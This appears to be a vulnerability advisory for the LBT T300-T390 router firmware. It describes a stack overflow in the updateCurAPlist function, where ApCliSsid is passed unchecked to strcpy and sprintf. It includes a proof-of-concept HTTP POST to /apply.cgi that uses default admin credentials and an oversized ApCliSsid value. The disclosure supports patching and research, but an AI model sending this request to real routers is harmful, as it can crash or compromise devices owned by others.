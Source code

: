 # LBT router updateCurAPlist function stack overflow vulnerability

> vendor:LBT
>
> product:T300-T390
>
> version:v2.2.1.8
>
> type:Stack Overflow

## Vulnerability Description

LBT T300-T390 were discovered to contain a stack overflow via the ApCliSsid parameter in the updateCurAPlist function.

## Vulnerability Details

There is a stack overflow in the ApCliSsid variable in the updateCurAPlist function in the Rc program. In line 15, the variable is obtained through the system nvram_get function. In line 18, it is directly called by the dangerous function strcpy without processing. In line 19, v9 after the strcpy function operation is not processed. And passed directly to the dangerous function sprintf, which may overflow the stack-based buffers v8 and v9.

The calling process of the overflow function is as follows:

Main()->sub_40BEC8()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()

![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/45b8e878-0813-45fc-980a-8afa96170544)


## POC

    POST /apply.cgi HTTP/1.1
    Host: 192.168.10.1
    Content-Length: 697
    Cache-Control: max-age=0
    Authorization: Basic YWRtaW46YWRtaW4=
    Upgrade-Insecure-Requests: 1
    Origin: http://192.168.10.1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://192.168.10.1/apclient_scan.asp
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
    Connection: close

    submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliAuthMode=OPEN&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

   

    
